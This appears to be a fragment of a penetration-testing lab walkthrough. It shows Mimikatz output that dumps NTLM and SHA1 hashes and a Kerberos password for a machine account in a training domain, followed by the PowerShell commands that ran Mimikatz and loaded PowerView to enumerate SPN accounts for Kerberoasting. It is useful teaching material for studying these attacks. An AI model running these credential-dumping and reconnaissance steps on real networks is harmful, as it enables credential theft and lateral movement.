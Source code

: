 ```powershell-session
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :

Authentication Id : 0 ; 996 (00000000:000003e4)
User Name         : DEV01$
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname